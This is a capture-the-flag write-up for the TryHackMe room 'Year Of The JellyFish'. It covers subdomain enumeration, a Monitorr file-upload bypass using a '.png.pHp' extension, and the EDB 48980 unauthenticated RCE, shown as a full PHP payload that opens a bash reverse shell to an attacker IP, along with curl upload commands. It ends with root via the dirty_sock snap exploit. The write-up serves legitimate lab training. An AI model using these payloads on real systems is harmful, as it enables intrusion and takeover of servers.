 # Year Of the JellyFish-TryHackMe

![](img/chall.png)

Room : https://tryhackme.com/room/yearofthejellyfish

This article is about the room Year Of The JellyFish capture the flag created by [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle) on [TryHackMe](https://tryhackme.com/).

This box is part of an OSCP voucher giveaway. The prize is donated by [@q8fawazo](https://twitter.com/q8fawazo).

## Reconnaissance:

You will get a specific IP_Address of this machine, let's start with nmap scan.

`nmap -sC -sV $IP`

![](img/nmap.png)

we can see 80, 443 are open, let's open it in browser. We can see port 80 is redirect to https://robyns-petshop.thm/ , also nmap detects multiple sub domains, so it will be a VirtualHost.

![](img/dns.png)

So we need to add IP and Domains to the `/etc/hosts` file.

![](img/hosts.png)

## Enumeration:

Let's go through the domains,

![](img/1s.png)

![](img/beta.png)

![](img/dev.png)

![](img/monitorr.png)

I started with `dirb` on https://robyns-petshop.thm/ , i got some directories that countains information about themes, plugins, etc.. bad luck :(

![](img/dirb.png)

The *dev.robyns-petshop.thm* subdomain is appeared to be same as *robyns-petshop.thm*, and from *beta.robyns-petshop* domain nothing got suspicious.

After i visited the `https://monitorr.robyns-petshop.thm/` this something bugs me, and it was open source, there is an login portal on monitorr settings.

![](img/monlogin.png)

https://github.com/Monitorr/Monitorr/tree/master/assets/config/_installation/vendor

I visited an [GitHub Repo](https://github.com/Monitorr/Monitorr/tree/master/assets/config/_installation/vendor) and found some interesting files.

![](img/gitre.png)

Going through the source code of `_install.php`, it creates a empty database, after that we can create an account on `login.php`. and its perfectly worked in this server too. After login to monitor settings, there is an image upload option in services-configuration, we can create an reverse shell connection through file upload vulnerability, its has also have mime validation & extension checking , after some failed attempts, i'am able to bypass both with ".png.pHp" extension and get the reverse shell connection.

But when i try to access this room yesterday with this image upload vulnerability, it couldn't worked maybe the room owner fix that vulnerability. So let's go for another vulnerability.

When i search google for monitorr 1.7.6m exploit i got something interesting in [exploit database](https://www.exploit-db.com/exploits/48980).

![](img/exp.png)

It was (EDB id: 48980) An unauthenticated RCE would be absolutely perfect exploit here.

Let's create a reverse shell payload.

`echo -e $'\x89\x50\x4e\x47\x0d\x0a\x1a\n<?php echo system("bash -c \'bash -i >& /dev/tcp/10.4.29.202/443 0>&1\'");' > an0n.png.pHp`

Now we have to upload the reverse shell we created with `curl` command.

`curl -k -F "fileToUpload=@./an0n.png.pHp" https://monitorr.robyns-petshop.thm/assets/php/upload.php -H "Cookie: isHuman=1"`

To get the reverse shell.

`curl -k https://monitorr.robyns-petshop.thm/assets/data/usrimg/an0n.png.php`

Same time set listener on another tab.

`nc -lvp 443`

![](img/flag11.png)

We successfully get the reverse shell thorough RCE. The first flag we can obtained from `/var/www/flag1.txt` file.

## Privilege Escalation:

It's time to root the machine. Here i used [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester).

It show us snap version was vulnerable to dirty_sock (CVE-2019–7304) exploit(EDB id: [46362](https://www.exploit-db.com/exploits/46362)). let's move in to /tmp directory.

![](img/snpve.png)

![](img/dirt.png)

Then get the exploit from [exploit-db](https://www.exploit-db.com/download/46362) with `wget` command, and give permission.

![](img/wget.png)

Let's run the exploit, and it successfully exploited the machine!

![](img/sock.png)

Now we can switch user with `su` command, username will be `dirty_sock` and password will be `dirty_sock`. After that go for sudo su, we will be root.

![](img/rooot.png)

We can obtain root flag from `/root/root.txt`

## Thank you for reading my write up! Hope you enjoyed it.
